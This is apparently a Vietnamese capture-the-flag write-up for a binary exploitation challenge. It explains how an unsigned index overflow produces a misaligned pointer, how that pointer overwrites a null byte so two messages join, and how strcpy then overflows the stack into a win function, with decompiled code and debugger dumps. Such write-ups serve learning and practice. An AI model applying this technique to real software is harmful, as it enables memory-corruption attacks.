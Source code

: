# write up index
- với bài này ta có thể chạy vòng lặp vô hạn
```c
    while (1) {
        puts("\n1. Edit a message");
        puts("2. Read a message");
        puts("3. Exit\n");
        unsigned long choice = get();
        if (choice == 1) {
            puts("Enter an index to edit (0-2):");
            char* ptr = get_message(get());
            puts("Enter your new message:");
            memset(ptr, 0, 100);
            read(STDIN_FILENO, ptr, 99);
        }  else if (choice == 2) {
            puts("Enter an index to read (0-2):");
            Message tmp;
            strcpy(tmp, get_message(get()));
            puts(tmp);
        } else {
            break;
        }
    }
```
- vì bài khai báo biến index là unsigned nhưng không check đầu vào từ đây 
```c
unsigned long get() {
    unsigned long i = 0;
    scanf("%lu", &i);
    return i;
}
```
trong ida thấy được rằng index được check từ đây, địa chỉ khi lấy dữ liệu phải nằm trong khoảng địa chỉ mà chương trình cho phép
```c
char *__fastcall get_message(__int64 idx)
{
  if ( &start[100 * idx] < start || end < &start[100 * idx] )
  {
    puts("That's not allowed!");
    exit(0);
  }
  return &start[100 * idx];
}
```
- vì thế index cũng phải phù hợp để làm sao khi trả về địa chỉ thì nằm trong khoảng cho phép này
- sức chứa của 1 thanh ghi chỉ là 0xffffffffffffff vì thế khi nhập quá giới hạn thì sẽ bị tràn và dẫn đến sai giá trị, vì thế thông qua đây ta có thể làm sao cho nó bị tràn để khi đi qua các instruction này thì giá trị sẽ trở thành 1 con số mà khi cộng với địa chỉ sẽ truy xuất đến nơi mà mình mong muốn
```assembly
.text:00000000004011F8                 shl     rax, 2
.text:00000000004011FC                 add     rax, rdx
.text:00000000004011FF                 lea     rdx, ds:0[rax*4]
.text:0000000000401207                 add     rax, rdx
.text:000000000040120A                 shl     rax, 2
.text:000000000040120E                 lea     rdx, start  
```
-  vì memset là 100 mà nhập vào chỉ có 99 bytes, trong khi đó việc truy suất đến các phần tử mảng là aligned nên mục tiêu nhắm tới là làm sao cho việc đọc ghi đè được 1 byte null để từ đó nối chuỗi lại và gây ra buff
```c
memset(ptr, 0, 100);
            read(STDIN_FILENO, ptr, 99);
```

- để làm được thì chỉ cần làm sao cho index nhắm tới phần địa chỉ lẻ không chia hết cho 8
```python
>>> 0xffffffffffffffff
18446744073709551615
>>> 
```
- đây là giá trị max 1 thanh ghi có thể chứa, khi cộng thêm 1 thì sẽ trở thành như này
```c
>>> hex(18446744073709551615+1)
'0x10000000000000000'
>>> 
```
vì thế chỉ cần cộng làm sao cho nó ra 1 index vừa đủ mà có thể chia cho 10-0 để từ đó có thể dùng để truy xuất đến phần tử trong mảng giá trị max cộng thêm 64 nữa là vừa đủ , nên cẩn trọng với các con số khi cộng vì nó có thể đưa đi quá xa, đây có thể là giá trị đầu tiên phải thử 
```c
>>> 0xffffffffffffffff+85
18446744073709551700
```
- phải đảm bảo đủ 8 bytes
```c
>>> hex(18446744073709551700)
'0x10000000000000054'
>>>
```
- khi qua các instructions thì index sẽ chỉ còn như này ở rax, vậy là thành công
```assembly
*RAX  0x54
 RBX  0x0
 RCX  0x10
 RDI  0x28f5c28f5c28f5d
 RSI  0x1
 RDX  0x3333333333333344 ('D3333333')
 R10  0x7ffff7f77ae0 ◂— 0x100000000
 R8   0x7fffffffe192 ◂— 0x0
 R9   0x0
 R11  0x7ffff7f783e0 ◂— 0x2000200020002
```
sau khi cộng thì sẽ được địa chỉ nằm trong vùng đó 
```assembly
*RAX  0x404074 (MESSAGES+84) ◂— 'bbbbbbbbbbbbbbb'
 RBX  0x0
 RCX  0x10
 RDI  0x28f5c28f5c28f5d
 RSI  0x1
 RDX  0x404020 (MESSAGES) ◂—
```
- chỉ cần nằm trong vùng messages là ok

- kịch bản là nhập index 0 để ghi full chuỗi đầu, tiếp theo là dùng index ở trên để ghi đè null byte rồi dùng tiếp index 1 thì index 0 và index 1 dữ liệu sẽ dược nối với nhau để thông qua đó overflow stack qua strcpy
```c
   if ( result_1 != 2 )
      break;
    puts("Enter an index to read (0-2):");
    idx = get();
    message = get_message(idx);
    strcpy(dest, message);
    puts(dest);
```
 - như ở dưới là dữ liệu được nối từ index 0 qua index 1
```assembly
 0x40401c (__dso_handle+20) ◂— 0x6262626200000000
16:00b0│  0x404024 (MESSAGES+4) ◂— 0x6262626262626262 ('bbbbbbbb')
17:00b8│  0x40402c (MESSAGES+12) ◂— 0x6262626262626262 ('bbbbbbbb')
pwndbg>
18:00c0│  0x404034 (MESSAGES+20) ◂— 0x6262626262626262 ('bbbbbbbb')
19:00c8│  0x40403c (MESSAGES+28) ◂— 0x6262626262626262 ('bbbbbbbb')
1a:00d0│  0x404044 (MESSAGES+36) ◂— 0x6262626262626262 ('bbbbbbbb')
1b:00d8│  0x40404c (MESSAGES+44) ◂— 0x6262626262626262 ('bbbbbbbb')
1c:00e0│  0x404054 (MESSAGES+52) ◂— 0x6262626262626262 ('bbbbbbbb')
1d:00e8│  0x40405c (MESSAGES+60) ◂— 0x6262626262626262 ('bbbbbbbb')
1e:00f0│  0x404064 (MESSAGES+68) ◂— 0x6262626262626262 ('bbbbbbbb')
1f:00f8│  0x40406c (MESSAGES+76) ◂— 0x6262626262626262 ('bbbbbbbb')
pwndbg>
20:0100│  0x404074 (MESSAGES+84) ◂— 0x6161616161616161 ('aaaaaaaa')
21:0108│  0x40407c (MESSAGES+92) ◂— 0x6161616161616161 ('aaaaaaaa')
22:0110│  0x404084 (MESSAGES+100) ◂— 0x6262626262626262 ('bbbbbbbb')
23:0118│  0x40408c (MESSAGES+108) ◂— 0x6262626262626262 ('bbbbbbbb')
24:0120│  0x404094 (MESSAGES+116) ◂— 0x6262626262626262 ('bbbbbbbb')
25:0128│  0x40409c (MESSAGES+124) ◂— 0x6262626262626262 ('bbbbbbbb')
26:0130│  0x4040a4 (MESSAGES+132) ◂— 0x40129462626262
```

- vì bài có hàm win nên chỉ cần bỏ vào trực tiếp là có thể lấy flag được rồi
- 
